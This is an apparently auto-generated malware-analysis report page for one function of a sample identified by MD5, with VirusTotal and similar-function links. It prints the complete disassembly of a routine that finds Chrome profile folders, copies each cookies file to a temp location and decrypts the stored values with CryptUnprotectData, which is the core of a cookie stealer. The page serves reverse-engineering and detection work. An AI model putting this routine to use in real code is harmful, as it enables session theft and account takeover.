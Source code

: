 ```yaml
---
layout: post
title:  "fcn.00473bc1 @ fb9b7d22bc1c143ac66b0575cbdd088d"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.00473bc1
- **Origin (md5):** fb9b7d22bc1c143ac66b0575cbdd088d
- **VirusTotal:** [virustotal.com/gui/file/fb9b7d22bc1c143ac66b0575cbdd088d][virustotal_ref]

# Code Tags
<span class="tag" id="FILE">FILE</span>


# Similar Functions

1. [fcn.00473bc1][similar_1_ref] (sim.: 1.0)
2. [fcn.00473bc1][similar_2_ref] (sim.: 1.0)
3. [fcn.0040b9f0][similar_3_ref] (sim.: 0.892322380785086)
4. [fcn.00417a43][similar_4_ref] (sim.: 0.8919090025583186)
5. [fcn.10003110][similar_5_ref] (sim.: 0.884708010007365)


# Disassembled Code

{% highlight nasm %}
push 0xe7c
mov eax,0x49ab4c
call fcn.00481ea4
mov edi,ecx
lea eax,[ebp-0x424]
mov dword[ebp-0xda4],edi
push eax
xor esi,esi
push esi
push esi
push 0x801c
push esi
call dword[sym.imp.SHELL32.dll_SHGetFolderPathW]
test eax,eax
js 0x473f85
mov ebx,dword[sym.imp.SHLWAPI.dll_PathAppendW]
lea eax,[ebp-0x424]
push str.GoogleChromeUser_Data
push eax
call ebx
lea eax,[ebp-0x424]
push eax
lea eax,[ebp-0x834]
push 0x104
push eax
call fcn.00481a97
add esp,0xc
lea eax,[ebp-0x834]
push 0x4ae8d0
push eax
call ebx
lea eax,[ebp-0x834]
xorps xmm0,xmm0
push eax
lea ecx,[ebp-0xd98]
movlpd qword[ebp-0xdb4],xmm0
call fcn.00473a35
mov dword[ebp-4],esi
lea ecx,[ebp-0xd98]
call fcn.00473a57
lea ecx,[ebp-0xd98]
test al,al
je 0x473f80
call fcn.0040547a
test byte[eax],0x10
je 0x473c54
lea ebx,[eax+0x2c]
push 0x4ae754
push ebx
call fcn.00481af3
pop ecx
pop ecx
test eax,eax
je 0x473c54
push 0x4ae758
push ebx
call fcn.00481af3
pop ecx
pop ecx
test eax,eax
je 0x473c54
lea eax,[ebp-0x424]
push eax
lea eax,[ebp-0x21c]
push 0x104
push eax
call fcn.00481a97
add esp,0xc
lea eax,[ebp-0x21c]
push ebx
mov ebx,dword[sym.imp.SHLWAPI.dll_PathAppendW]
push eax
call ebx
push str.cookies
lea eax,[ebp-0x21c]
push eax
call ebx
lea eax,[ebp-0xa3c]
push eax
push 0x104
call dword[sym.imp.KERNEL32.dll_GetTempPathW]
lea eax,[ebp-0x62c]
push eax
push esi
push 0x4ae770
lea eax,[ebp-0xa3c]
push eax
call dword[sym.imp.KERNEL32.dll_GetTempFileNameW]
push esi
lea eax,[ebp-0x62c]
push eax
lea eax,[ebp-0x21c]
push eax
call dword[sym.imp.KERNEL32.dll_CopyFileW]
test eax,eax
je 0x473f6e
lea ecx,[ebp-0xabc]
call fcn.00473faa
lea eax,[ebp-0x62c]
mov byte[ebp-4],2
push eax
lea ecx,[ebp-0xb40]
call fcn.00404fdb
mov ecx,eax
mov byte[ebp-4],3
call fcn.00404b49
push eax
lea ecx,[ebp-0xe88]
call fcn.0041d750
lea ecx,[ebp-0xb40]
mov byte[ebp-4],5
call fcn.0040501c
push ecx
lea eax,[ebp-0xe88]
push eax
lea ecx,[ebp-0xdc8]
call fcn.0041da8e
lea eax,[ebp-0xda0]
mov byte[ebp-4],6
push eax
lea ecx,[ebp-0xdc8]
call fcn.0041daa4
lea eax,[ebp-0xde0]
push eax
call fcn.0041dab7
mov edx,eax
lea ecx,[ebp-0xda0]
call fcn.0047517d
test al,al
je 0x473f07
push esi
lea eax,[ebp-0xa6c]
push eax
lea eax,[ebp-0xdd4]
push eax
lea ecx,[ebp-0xda0]
call fcn.00474e8e
mov ecx,eax
call fcn.00475197
push ecx
lea eax,[ebp-0xdcc]
mov byte[ebp-4],7
push eax
lea ecx,[ebp-0xda0]
call fcn.00474e8e
mov ecx,eax
call fcn.004751c4
mov ebx,eax
lea eax,[ebp-0xdd0]
push ecx
push eax
lea ecx,[ebp-0xda0]
call fcn.00474e8e
mov ecx,eax
call fcn.0041d96d
mov dword[ebp-0xdbc],eax
lea eax,[ebp-0xdac]
push eax
push 1
push esi
push esi
push esi
push esi
lea eax,[ebp-0xdbc]
mov dword[ebp-0xdb8],ebx
push eax
call dword[sym.imp.CRYPT32.dll_CryptUnprotectData]
test eax,eax
je 0x473ee8
push 2
lea eax,[ebp-0xa54]
push eax
lea eax,[ebp-0xdd8]
push eax
lea ecx,[ebp-0xda0]
call fcn.00474e8e
mov ecx,eax
call fcn.00475197
mov byte[ebp-4],8
lea ecx,[ebp-0xa84]
push dword[ebp-0xdac]
push dword[ebp-0xda8]
call fcn.0040a731
push ecx
lea ecx,[edi+6]
mov byte[ebp-4],9
push ecx
lea ecx,[ebp-0xdb4]
push ecx
mov ecx,eax
call fcn.0040b51d
push eax
lea ecx,[ebp-0xa6c]
call fcn.0040b51d
push eax
call fcn.0047fccc
pop ecx
push edx
push eax
lea ecx,[ebp-0xa54]
call fcn.0040b51d
push eax
lea ecx,[ebp-0xabc]
call fcn.00473ab8
lea ecx,[ebp-0xa84]
mov bl,al
call fcn.0040b62f
test bl,bl
je 0x473ecd
mov byte[edi+5],1
lea ecx,[ebp-0xa54]
mov byte[ebp-4],7
call fcn.0040b62f
push dword[ebp-0xda8]
call dword[sym.imp.KERNEL32.dll_LocalFree]
lea ecx,[ebp-0xa6c]
mov byte[ebp-4],6
call fcn.0040b62f
lea ecx,[ebp-0xda0]
call fcn.00474ea7
jmp 0x473d8e
push ecx
lea eax,[edi+6]
push eax
lea eax,[ebp-0xdb4]
push eax
push 0x4a3288
push esi
push esi
push 0x4a3288
lea ecx,[ebp-0xabc]
call fcn.00473ab8
test al,al
je 0x473f32
mov byte[edi+5],1
lea ecx,[ebp-0xdc8]
mov byte[ebp-4],5
call fcn.00473fd9
lea ecx,[ebp-0xe88]
mov byte[ebp-4],2
call fcn.0041d7ec
lea ecx,[ebp-0xabc]
call fcn.00473fc6
jmp 0x473f6b
mov dword[ebp-4],esi
lea eax,[ebp-0x62c]
push eax
call dword[sym.imp.KERNEL32.dll_DeleteFileW]
jmp 0x473c54
call fcn.00473a97
call fcn.00481df6
ret
{% endhighlight %}


[similar_1_ref]: /report/fcn.00473bc1@152885a790b99953ce23874f0947b7bd
[similar_2_ref]: /report/fcn.00473bc1@912f1d013a0d6151bc7a7cef6da1b2a0
[similar_3_ref]: /report/fcn.0040b9f0@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_4_ref]: /report/fcn.00417a43@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_5_ref]: /report/fcn.10003110@090dc3a8da6aa33c667b678303e4bdd6
[virustotal_ref]: https://www.virustotal.com/gui/file/fb9b7d22bc1c143ac66b0575cbdd088d